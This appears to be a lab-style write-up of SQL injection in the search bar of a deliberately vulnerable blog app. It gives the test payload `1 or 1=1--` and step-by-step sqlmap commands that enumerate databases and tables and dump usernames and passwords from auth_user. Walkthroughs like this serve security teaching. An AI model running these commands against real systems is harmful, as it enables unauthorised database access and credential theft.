 # Sql injection 

## SQLI in Search bar

At first I found that the search variable would return exactly what I just entered so I tried a simple payload to test SQLi `1 or 1=1--`
Surprisingly, the results returned all the articles in the data table of the application

![image](https://user-images.githubusercontent.com/63194321/132503809-073c0af0-404a-4ea9-81b4-b16028215cdb.png)

### Solution
After determining that there is SQLI at this address, we will use sqlmap to scan and attack

B1. Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch`

![image](https://user-images.githubusercontent.com/63194321/132506775-bfe319ad-d1e6-4b7d-9535-31730048cc07.png)

B2. Define a list of databases:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch --dbs`

![image](https://user-images.githubusercontent.com/63194321/132508430-06ebfa6b-66a3-4e06-bd35-7857fab4a5f0.png)

B3. Identify the tables in the database:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132508803-98a9a86f-dca3-419c-84c7-f284a535c659.png)

B4. Define columns in tables:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -columns`

![image](https://user-images.githubusercontent.com/63194321/132509383-9d885446-6ffb-4409-957a-ffeabfbac78e.png)

B5. Get the username and password values:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -C username, password --dump`

![image](https://user-images.githubusercontent.com/63194321/132510741-09017ecd-a95e-4cc5-8f45-b0129742314d.png)


